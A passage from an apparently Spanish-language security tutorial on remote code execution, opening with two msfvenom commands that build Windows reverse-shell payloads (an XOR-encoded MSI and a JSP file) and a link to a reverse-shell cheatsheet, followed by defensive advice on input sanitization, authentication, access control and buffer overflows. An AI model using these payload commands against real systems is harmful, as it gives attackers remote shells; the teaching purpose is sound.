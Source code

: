```
msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=<local-ip> LPORT=1337 --encoder x64/xor --iterations 9 --format msi --out exploit.msi  # MSI file
```

```
msfvenom -p windows/shell_reverse_tcp lhost=<local-ip> lport=PORT -f jsp -o revshell.jsp  # JAVA file
```

Si quereis saber más a cerca de estos payloads podeis mirar esta [cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) el cual es una de las mejores actualmente en cuanto a reverse shells.

# __Como prevenirse frente a RCEs__

Para que un atacante realice un ataque RCE, el sistema objetivo debe tener una vulnerabilidad preexistente para que este la aproveche. Varias vulnerabilidades podrían abrir la puerta a un ataque RCE, demasiadas para nombrarlas. Sin embargo, los siguientes tipos de vulnerabilidades son los más utilizados para perpetrar ataques RCE:

## __Unsanitized user input__

Si nuestro sitio web/aplicación permite la entrada del usuario sin tener implementadas las medidas de desinfección adecuadas, estaremos abriendo la puerta a todo tipo de comportamiento no intencional en nombre de nuestro servidor, como la ejecución de código arbitrario. No podemos confiar en la entrada del usuario, nunca. Este punto también se relaciona con la type confusion, que se explica a continuación.

## __Broken authentication__

Si las funciones de autenticación y administración de sesiones de nuestro sitio web/aplicación se implementan incorrectamente, los atacantes podrían comprometer contraseñas, claves o tokens de sesión. También podrían intentar explotar otras vulnerabilidades para asumir las identidades de otros usuarios con permisos potencialmente confidenciales. Una vez que el atacante está dentro, podría ejecutar código arbitrario y posiblemente apoderarse de nuestro servidor con los permisos adecuados.

## __Poor access control__

Access control lists (ACL) limitan los permisos de los usuarios a solo aquellos que son necesarios para que completen su trabajo. Sin los permisos debidamente segmentados, en el caso de que un atacante secuestra una cuenta de usuario que tiene privilegios de root, el daño que podría causar el atacante es considerable.

## __Buffer overflows__

Debido a que el buffer constituye una cantidad fija de RAM, las medidas de verificación de límites deben escribirse en el código para garantizar que no se exceda la capacidad del mismo. Si no existen estas medidas la cantidad de datos escritos en el buffer podría exceder su capacidad. Estos pueden destruir datos esenciales, bloquear el sistema y sobrescribir ubicaciones de memoria con código arbitrario (malware) que el sistema ejecutaría posteriormente.
